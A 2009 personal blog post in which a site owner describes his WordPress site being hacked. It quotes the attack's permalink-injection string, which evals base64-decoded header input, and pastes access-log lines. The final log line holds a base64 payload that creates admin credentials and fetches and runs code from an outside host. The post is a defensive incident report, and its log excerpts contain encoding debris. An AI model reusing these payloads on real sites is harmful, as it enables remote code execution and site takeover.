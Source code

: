 ```yaml
---
layout: post
title: Wordpress Hacker This Morning.
comments: true
---
```

I hate hackers - they are stupid (mostly) and generally not real productive at actually accomplishing anything except breaking things and causing unnecessary extra work for those that actually contribute to society.

Anyway I am sorry to all of the people that could not get to my site this morning. A wave of Wordpress attacks hit not only me but a ton of Wordpress sites all over the place - just googleÂ /%&amp;({${eval(base64_decode($_SERVER[HTTP_EXECCODE]))}}|.+)&amp;%/ if you want to see a bunch of them yourself (yep google already indexed them)

Anyway the attack appears to be coming from IP address 122.135.85.220. I just finished firing up a new virtual server with pristine code/data for all of you out there and am just starting to run this down. If anyone wants to help you have the source IP and this looks like the exploit used but I am still researching the entire sequence of events from my logs. It maybe that this is all there is to it but I want to be thorough.

Here is what I believe to be the hack:

<code>
48195 122.135.85.220 - - [04/Sep/2009:04:53:21 -0400] "GET /wp-login.php HTTP/1. Â  Â  Â 1" 200 1948 "http://photo.rwboyer.com/" "Mozilla/5.0 (Windows; U; Windows</code>

<code>NT 5.1; en-US; rv:1.7) Gecko/20040803 Firefox/0.9.3"48196 122.135.85.220 - - [04/Sep/2009:04:53:24 -0400] "POST /wp-login.php HTTP/1 Â  Â  Â .1" 302 - "http://photo.rwboyer.com/wp-login.php" "Mozilla/5.0 (Windows; U

; Windows NT 5.1; en-US; rv:1.7) Gecko/20040803 Firefox/0.9.3"48197 122.135.85.220 - - [04/Sep/2009:04:53:28 -0400] "GET /wp-admin/ HTTP/1.1"

200 34669 "http://photo.rwboyer.com/wp-login.php" "Mozilla/5.0 (Windows; U Â  Â  Â ; Windows NT 5.1; en-US; rv:1.7) Gecko/20040803 Firefox/0.9.3"

48198 122.135.85.220 - - [04/Sep/2009:04:53:34 -0400] "GET /wp-admin//options-pe Â  Â  Â rmalink.php HTTP/1.1" 200 15153 "http://photo.rwboyer.com/wp-admin//option Â  Â  Â s-permalink.php" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.7)

</code>

<code>Gecko/20040803 Firefox/0.9.3"48199 122.135.85.220 - - [04/Sep/2009:04:53:37 -0400] "POST /wp-admin//options-p Â  Â  Â ermalink.php HTTP/1.1" 200 15312 "http://photo.rwboyer.com/wp-admin//optio Â  Â  Â ns-permalink.php" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.7) Â  Â  Â  Gecko/20040803 Firefox/0.9.3"48200 122.135.85.220 - - [04/Sep/2009:04:53:41 -0400] "POST /xmlrpc.php HTTP/1.1 Â  Â  Â " 200 173 "JHJvbGU9J2FkbWluaXN0cmF0b3InOyR1c2VyX2xvZ2luPSdKZXJhbXlEZWNrNzk Â  Â  Â nOyR1c2VyX3Bhc3M9J09nck8hSTMkTGQhISc7ZXZhbChmaWxlX2dldF9jb250ZW50cygnaHR0c Â  Â  Â DovL2xpbmtzLndlYndvcmRwcmVzcy5jbi9kYXRhL3Nob3J0cGFydDIudHh0JykpO2V4aXQ7" " Â  Â  Â Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.7) Gecko/20040803 Fir Â  Â  Â efox/0.9.3"
</code>
RB